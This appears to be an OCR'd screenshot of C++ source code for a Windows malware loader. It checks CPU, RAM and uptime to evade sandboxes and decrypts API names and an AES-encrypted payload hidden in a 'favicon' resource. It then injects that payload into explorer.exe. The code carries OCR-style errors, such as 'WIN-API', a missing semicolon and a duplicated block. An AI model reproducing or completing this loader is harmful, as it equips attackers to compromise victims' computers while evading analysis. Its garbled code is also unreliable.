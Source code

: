 ```c++
        return -1;
}
//Declare actual main win Function

int WIN-API WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {

	// check CPU
	SYSTEM_INFO systemInfo;
	GetSystemInfo(&systemInfo);
	DWORD numberOfProcessors = systemInfo.dwNumberOfProcessors;
	if (numberOfProcessors < 2) return 0;
	
	// check RAM
	MEMORYSTATUSEX memoryStatus;
	memoryStatus.dwLength = sizeof(memoryStatus);
	GlobalMemoryStatusEx(&memoryStatus);
	DWORD RAMMB = memoryStatus.ullTotalPhys / 1024 / 1024;
	if (RAMMB < 2048) return 0;
	
	//check uptime 
	ULONGLONG uptime = GetTickCount64() / 1000;
	if (uptime < 1200) return 0; //20 minutes
	
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    	DWORD oldprotect = 0;
	HGLOBAL resHandle = NULL;
	HRSRC res;
	int pid = 0;
    	HANDLE hProc = NULL;
	//Decrypt AES signed key
	AESDecrypt((char *) sLockResource, sizeof(sLockResource), key, sizeof(key));
	pLockResource = GetProcAddress(GetModuleHandle("kernel32.dll"), sLockResource);
	unsigned char * payload;
	unsigned int payload_len;
	// Extract payload from resources section
	res = FindResourceA(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
	resHandle = LoadResource(NULL, res);
	payload = (char *) pLockResource(resHandle);
	payload_len = SizeofResource(NULL, res);
	AESDecrypt((char *) sLockResource, sizeof(sLockResource), key, sizeof(key));
	pLockResource = GetProcAddress(GetModuleHandle("kernel32.dll"), sLockResource);
	// Allocate some memory buffer for payload
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	// Copy payload to new memory buffer
	RtlMoveMemory(exec_mem, payload, payload_len);	
	// Decrypt payload
	AESDecrypt((char *) exec_mem, payload_len, key, sizeof(key))
	//Injection process starts here
	//pid = Find(sExplore);
	pid = Find("explorer.exe");
	if (pid) {
		// try to open target process
		hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
						PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
						FALSE, (DWORD) pid);
		
		if (hProc != NULL) {
			m4(hProc, exec_mem, payload_len);
			CloseHandle(hProc);
		}
	}
```